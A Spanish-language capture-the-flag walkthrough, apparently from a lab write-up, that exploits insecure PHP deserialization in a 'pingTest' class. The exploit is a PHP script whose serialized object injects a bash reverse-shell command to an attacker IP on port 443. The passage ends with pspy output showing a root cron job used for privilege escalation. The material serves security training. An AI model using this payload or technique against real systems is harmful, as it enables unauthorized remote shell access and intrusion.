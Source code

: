 - El código PHP crea una clase llamada "pingTest" la cual tiene `3 propiedades` (ipAddress, isValid, output) y `2 métodos` (validate, ping)
- El código PHP verifica que la información recibida por POST se trate de un `objeto serializado` para luego deserializarlo, sino, crea una instancia de la clase pingTest.
- El código PHP valida que la propiedad "ipAddress" del objeto ya deserializado se trate de una dirección IP válida (aplicando filtros), si es así, se modifica su propiedad "isValid" a "True". Nota: el método "validate" comprueba si la propiedad "isValid" es `falsa` en ese momento y solo ejecutará el código dentro del if statement si ese es el caso. Si la propiedad "isValid" ya es verdadera, entonces el método "validate" simplemente pasará a la siguiente línea de código.
- El código PHP utiliza el método "ping" verificando que el objeto ya deserializado y validado, contenga la propiedad "isValid" en `True`; si es así, ejecuta el comando del sistema "ping" seguido de la información de la propiedad "ipAddress", sino, no se ejecuta el comando.

- Sabiendo todo esto, podríamos aprovecharnos de esto mandando como información serializada de formato PHP en la petición por POST un objeto de la clase "pingTest" con la propiedad "isValid" en "True"; esto ya que como analizamos, el método "validate" solo pasa el filtro de dirección IP legítima si la propiedad "isValid" es "false", habiendo hecho eso, se usará el método "ping" el cual ejecuta el comando del sistema "ping" "utilizando la información de la propiedad "ipAddress" la cual la modificaremos también en el objeto que creamos inyectando el comando para que nos genere una reverse shell:

- Podemos crear el objeto con las propiedades dichas, serializarlo y URLencodearlo usando la siguiente script en PHP:

```bash
nano pwned.php
```

```php
<?php
class pingTest{

	public $ipAddress = ";bash -c 'bash -i >& /dev/tcp/192.168.1.35/443 0>&1'";
	public $isValid = True;
}
echo urlencode(serialize(new pingTest));
?>
```

- Ejecutamos la script y nos devolverá la información del objeto de forma serializada y URL encodeado, solo nos resta enviarlo en la petición por POST que habíamos mandado el repeater en `Burpsuite` en la data `"obj"` estando en escucha en nuestra máquina atacante.

- Habremos accedido al sistema como el usuario "apache"
<br><br>

#  ESCALANDO PRIVILEGIOS:

- Escaneamos procesos que se ejecutan en segundo plano de forma automatizada con [pspy](https://github.com/DominicBreuker/pspy/releases)y luego de varios minutos obtenemos la siguiente información:

```js
2023/03/18 05:10:01 CMD: UID=0     PID=2474   | /usr/sbin/CROND -n 
2023/03/18 05:10:01 CMD: UID=0     PID=2475   | /bin/bash /usr/share/scripts/chown.sh 
```
